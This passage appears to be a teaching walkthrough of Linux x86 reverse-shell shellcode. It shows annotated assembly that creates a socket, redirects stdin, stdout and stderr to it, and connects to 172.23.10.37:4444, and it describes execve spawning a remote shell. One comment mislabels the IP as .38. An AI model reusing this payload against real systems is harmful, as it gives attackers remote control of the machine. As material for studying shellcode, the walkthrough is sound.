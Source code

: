## Stepping through the shellcode

First, registers are cleared. The `mul` instruction is a shortcut to zero out `eax` and `edx` with a single instruction.
```nasm
xor ebx,ebx           ; ebx = 0
mul ebx               ; eax = 0, edx = 0
```

`int socket(int domain, int type, int protocol);`

The socket is created:
- AF_INET = IP
- SOCK_STREAM = tcp

```nasm
inc ebx               ; ebx = 1 (SYS_SOCKET)
push ebx              ; socket() -> type = 1 (SOCK_STREAM)
push byte +0x2        ; socket() -> domain = 2 (AF_INET)
mov ecx,esp           ; socketcall() -> *args
mov al,0x66           ; sys_socketcall -> SYS_SOCKET
int 0x80
```

`int dup2(int oldfd, int newfd)`

stdin, stdout and stderr are duplicated to the network socket:

```nasm
xchg eax,ebx          ; eax = 1, ebx = 3 (fd)
pop ecx               ; ecx = 2
mov al,0x3f           ; sys_dup2
int 0x80              ;
dec ecx               ;
jns 0x11              ; loop through stdin, stdout, stderr
```

`int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)`

The socket is then connected to the remote listener *172.23.10.37 / 4444*:

```nasm
push dword 0x250a17ac ; IP: 172.23.10.38
push dword 0x5c110002 ; Port: 4444
mov ecx,esp           ; socketcall() -> *args
mov al,0x66           ; sys_socketcall -> SYS_CONNECT
push eax              ; socklen_t addrlen = 66 
push ecx              ; const struct sockaddr *addr
push ebx              ; int sockfd = 3 (fd)
mov bl,0x3            ; ebx = 3 (SYS_CONNECT)
mov ecx,esp           ; socketcall() -> *args
int 0x80
```

`int execve(const char *filename, char *const argv[], char *const envp[])`

Once the socket is connected, `execve` is used to spawn a shell and since the descriptors have previously been duplicated the input and output will be redirected over the network.
